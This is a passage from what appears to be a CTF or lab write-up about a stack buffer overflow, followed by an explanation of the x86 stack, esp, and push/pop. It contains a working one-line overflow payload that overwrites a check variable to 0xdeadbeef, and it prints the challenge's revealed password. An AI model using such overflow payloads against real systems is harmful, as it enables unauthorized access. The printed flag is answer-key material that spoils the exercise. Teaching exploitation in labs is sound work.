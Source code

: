 ```bash
app-systeme-ch13@challenge02:~$ (python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)';echo cat .passwd) | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
1w4ntm0r3pr0np1s
Shell closed! Bye.
```

So to summarise, using our understanding of the stack we've effectively corrupted and overwritten a stack variable via an overflow.

The stack
----------
<p align="center">
<img src='/assets/img/stack-bof-1/stack-1.png'>
 </p>

So I've mentioned the stack a lot, but how do we know where it's located and how does it relate to `esp` which we kept referring to?  The diagram above illustrates generally how it looks in memory.  Of course a lot of details are missing but it does show the basics.

We define where the top of the stack is located in memory at any specific time with the `esp` register.  It defines the location of the top of the stack, and is manipulated with individual `push` and `pop` instructions, which as their names might indicate, either add or remove from the stack.  The stack itself will grow downwards in memory for x86 architectures.  Therefore, if we push to the stack a value, that value is written to the location at `esp` and the value of `esp` is decremented, and incremented for popping from it.  The diagram below illustrates what happens to ESP as we push and pop. Just as a note, an instruction of the form `pop ebx` means that the value popped off the stack is moved into the `ebx` register.

<p align="center">
<img src='/assets/img/stack-bof-1/stack-2.png'>
 </p>


[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
